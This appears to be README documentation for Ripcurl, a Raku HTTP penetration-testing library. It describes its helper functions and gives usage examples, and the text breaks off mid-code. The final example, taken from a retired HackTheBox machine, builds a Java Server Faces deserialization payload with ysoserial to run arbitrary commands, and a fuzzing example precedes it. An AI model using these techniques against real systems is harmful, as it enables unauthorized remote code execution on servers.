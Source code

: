 #### str2json(Str $s --> Hash)

Takes a string containing a JSON object and returns a `Hash` of the object.

#### hash2json(%obj --> Str)

Takes a `Hash` and returns a JSON string.

#### roll-email(Str :$dom --> Str)

Generates a random email address with random username and domain from 8-12 characters each. The TLD is picked at random from a short list. You can specify a domain by setting `:$dom`.

#### rc-from-file(Str $path, *%opts)

Uses a request saved by burpsuite or zaproxy to construct an `RC` object. This function isn't completely thorough and won't work in many non-trivial cases. However, for typical GET/POST requests, it's expected to work.

It will configure Basic and Bearer authentication for you if the `Authorization` header exists. Other auth schemes must be configured manually.

The author recommends testing it with an intercepting proxy for anything but basic GET/POST operations before use. The source for this function is well commented, so you can look to see if it handles what you need.

The slurpy parameter `*%opts` is for any libcurl [options](https://github.com/CurtTilmes/perl6-libcurl#options) you want to set explicitly. To test with an intercepting proxy:

> rc-from-file('request.txt', proxy=>'http://127.0.0.1:8080');

# How to do things

### Load a request from a file

```
perl6 -M Ripcurl -e 'my $rc = rc-from-file('request.txt');'
```
### Fuzz a URL parameter with a wordlist, printing the status-line from each response

```
perl6 -M Ripcurl -e my $rc='RC.new("https://example.com");$rc.fuzz(FUZZURL,"/?param1=1&param2=FILE&param3=whatever",:source("/root/wordlists/raft-small-words.txt"),:print(&{$rc.p-statline}) )'
```

### Build payloads with &mutate and update other fields with &custom

This example is from a retired hackthebox machine. It's gnarly, but it shows everything that Ripcurl and `fuzz()` can do. Give it a command to execute at the readline prompt, and it will build a deserialization payload for Java Server Faces, POST it, and print the status code.


```perl6
use Ripcurl;

#the form fields. The ViewState is set to IFUZZ because I want the readline prompt.
my %fuzz = 'javax.faces.ViewState'=>'IFUZZ',
           'j_id_jsp_1623871077_1%3Aemail' => roll-email(),
           'j_id_jsp_1623871077_1%3Asubmit'=>'SIGN+UP',
           'j_id_jsp_1623871077_1_SUBMIT'=>'1';

#builds the payload & returns it encrypted, signed, and encoded
sub genpayload($cmd) {
    qqx|/usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java -jar /root/cloned/ysoserial-modified/target/ysoserial-modified.jar CommonsCollections5 cmd "$cmd" > /tmp/pload1| ;

```